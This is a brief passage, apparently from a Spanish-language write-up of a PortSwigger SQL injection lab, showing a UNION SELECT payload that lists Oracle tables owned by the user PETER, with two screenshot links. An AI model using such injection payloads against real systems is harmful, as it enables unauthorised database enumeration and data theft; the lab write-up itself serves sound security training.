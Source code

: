 De esta forma dumpeo las tablas donde el usuario `PETER` es propietario.

```sql
' union select table_name,NULL from all_tables where owner='PETER'--
```

![](/assets/img/ps-writeup-sqli/ps-lab6_7.png)

![](/assets/img/ps-writeup-sqli/ps-lab6_8.png)
